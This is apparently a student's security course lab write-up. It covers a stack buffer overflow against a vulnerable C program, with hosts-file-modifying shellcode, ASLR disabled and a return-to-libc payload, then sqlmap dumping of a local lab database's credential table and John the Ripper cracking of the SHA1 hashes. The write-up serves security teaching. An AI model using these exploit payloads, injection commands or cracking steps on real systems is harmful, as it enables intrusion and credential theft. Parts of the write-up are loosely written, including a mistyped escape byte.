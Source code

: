 # Lab #1,22110044,Nguyen Nguyen Toan Khoa, INSE331280E_02FIE
# Task 1: Software buffer overflow attack
 Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode in asm. This shellcode add a new entry in hosts file
```
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5     
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permmisions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, dont forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"
```
**Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is  added to the /etc/hosts file on your linux. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
  
**Answer 1**: Must conform to below structure:
Description text (optional)

- For this lab, i will use a docker container to do. It will be mapped to my Seclabs directoy
![alt text](image-38.png)
- Then i will compile C asm program and C program to executable code
![alt text](image-37.png)
- I will use an older bash and turn off randomly given stack value.
`sudo sysctl -w kernel.randomize_va_space=0`
![alt text](image-39.png)
- The stack frame of main function
![alt text](image-32.png)
- The pwd of the copy_file: 
![alt text](image-40.png)
- Create a global environment varibale using `export my_path="/home/seed/seclabs/copy_file"`
- Then i will set root for user to write:
![alt text](image-50.png)
- I will find the address of system and exit and that string of varibale:
![alt text](image-41.png)
- Address value of system: 0xf7e50db0 will be inserted with format \xb0\x0d\xe5\xf7

- Address value of exit: 0xf7e449e0 will be inserted with format \xe0\x49\xe4\f7

- Address value of the string of env: 0xffffd94c will be inserted with format \x4c\xd9\xff\xff

- So the command will be:
`r $(python -c "print('a'*20 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' +  '\x4c\xd9\xff\xff')")`
- Before i run this command:
![alt text](image-51.png)

- And the output when i run this command: 

  ![alt text](image-49.png)

---

# Task 2: Attack on the database of Vulnerable App from SQLi lab 
- Start docker container from SQLi. 
  ![alt text](image-55.png)
- Install sqlmap.
`git clone https://github.com/sqlmapproject/sqlmap.git`
and then cd sqlmap
![alt text](image-56.png)
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 
  ![alt text](image-46.png)

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:
- First after i installed sqlmap, then i use this command to get information about all available databases: 
  `python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=1&Password=1" --dbs`
- Result:
  ![alt text](image-52.png)
  ![alt text](image-53.png)
  ![alt text](image-54.png)


**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:
- Following this step , i use command `python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=1&Password=1" -D sqllab_users --tables` to get table contain users information
  ![alt text](image-57.png)
  so i got a table name: **credential**
- So next step , i'm going to use this command: `python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=1&Password=1" -D sqllab_users -T credential --dump` to got all infformation about users in that table 
  ![alt text](image-58.png)
  Result: we got all informations of users.
**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
- Regard to this step , i go to install John the Ripper first in website 
 ![alt text](image-59.png)
- Then i extract files to D and setting path for it in many step:
  1. Windown + R and type sysdm.cpl
  2. Choose advanced and click on Environtment Variables
  3. Choose Path and click EDit 
   ![alt text](image-60.png)
  4. click new and copy path of folder contain file john.exe
   ![alt text](image-61.png)
   Then we fishned
- Next step i create wordlist.txt with content in rockyou2021.txt is all of weakspassword and store in 
  ![alt text](image-63.png)
  - Content
  ![alt text](image-62.png)
- After that i will prepare this file `C:\Users\ToanKhoa\AppData\Local\Temp\sqlmap1sem5xjz21548\sqlmaphashes-mnuhm7hu.txt
```
fdbe918bdae83000aa54747fc95fe0470fff4976
b78ed97677c161c1c82c142906674ad15242b2d4
a3c50276cb120637cca669eb38fb9928b017e9ef
995b8b8c183f349b3cab0ae7fccd39133508d2af
99343bff28a7bb51cb6f22cb20a618701a2c2f58
a5bdf35a1df4ea895905f6f6618e83951a6effc0
```
- To continue with process , i go into the path: `D:\john-1.9.0-jumbo-1-win64\run>` and use this command `john --show --format=Raw-SHA1 "C:\Users\ToanKhoa\AppData\Local\Temp\sqlmap1sem5xjz21548\sqlmaphashes-mnuhm7hu.txt"`
![alt text](image-64.png)
- Result:
![alt text](image-65.png)
-> we finshed lab , 
Note: wordlist in this case can not find password because less weakspassword in wordlist.txt
Command: `john --wordlist="D:\john-1.9.0-jumbo-1-win64\run\wordlist.txt" --fork=4 --format=Raw-SHA1 "C:\Users\ToanKhoa\AppData\Local\Temp\sqlmap1sem5xjz21548\sqlmaphashes-mnuhm7hu.txt"`
![alt text](image-66.png)



